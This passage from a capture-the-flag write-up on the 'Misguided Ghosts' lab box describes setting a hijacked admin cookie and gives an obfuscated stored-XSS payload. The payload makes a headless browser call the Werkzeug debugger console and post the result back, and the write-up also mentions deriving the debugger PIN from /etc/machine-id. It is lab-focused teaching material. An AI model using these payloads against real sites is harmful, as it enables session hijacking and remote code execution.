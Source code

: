 ```js
document.cookie = 'login=<redacted-admin-cookie>'
"login=<redacted-admin-cookie>"
```
![11](/assets/images/thm/misguided_ghosts/11.png)
Now we are logged    in as hayley. I looked around if there is any new admin functionality on the webserver but failed to find anything. Then I turned my focus on the locked console. I can see that the request was made from headlessChrome but I did not know whether or not the headless chrome stores the cookie or not. As the path **/console** is on the same origin as **/dashboard**, we can make an AJAX request to /console as hayley from the headlesschrome and if there are cookies for the domain, the browser attaches the cookie with the request and we can execute code on the debugger console.
I played with this thing for a long time. Even created a hello world app on flask to check the behaviour of the debugger console.


### Request payload
```html
&#x3C;scrscriptipt&#x3E; 
var res = '';                               
var req1 = new XMLHttpRequest();            
var params = '?__debugger__=yes&cmd=import%20os&frm=0&s=mi09o4WJvOxxlyqUAa1I';          
req1.open("GET","/console" + params,false);
req1.send();
res = res + ' Location: '+window.location.host +' Request -    Import os response code : ' + req1.status+ ' and the response is' + btoa(req1.responseText);

var req7 = new XMLHttpRequest();          
req7.open("POST",'/dashboard',true);
var params = "title=test&subtitle=" + res;
req7.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
req7.send(params);      

 &#x3C;/scrscriptipt&#x3E;
 ```
 What this script does is tries to import os on the console and makes a post request to the /dashboard enabling us to see the output.

### Response
```html
Location: localhost:8080 Request -    Import os response code : 404 and the response isPCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9XM0MvL0RURCBIVE1MIDMuMiBGaW5hbC8vRU4iPgo8dGl0bGU NDA0IE5vdCBGb3VuZDwvdGl0bGU CjxoMT5Ob3QgRm91bmQ8L2gxPgo8cD5UaGUgcmVxdWVzdGVkIFVSTCB3YXMgbm90IGZvdW5kIG9uIHRoZSBzZXJ2ZXIuIElmIHlvdSBlbnRlcmVkIHRoZSBVUkwgbWFudWFsbHkgcGxlYXNlIGNoZWNrIHlvdXIgc3BlbGxpbmcgYW5kIHRyeSBhZ2Fpbi48L3A Cg==
```


 But this also didnot work as there were no cookies attached to the request which was giving us 404 on the response.
 Then I search around and found a [article](https://www.daehee.com/werkzeug-console-pin-exploit/) to generate the debugger pin for which we will be needing the mac address of the machine and the machine-id from /etc/machine-id of the machine. The thing is that we have the mac address of the machine from the network capture file but we do not have a LFI to read the files from the webserver. So being stuck on this for a long time I sent a message to the one of the creator of the box asking if the console exploit was the intended path and I got the reply that the console exploit is not the intended path and I should continue with the normal enumeration.

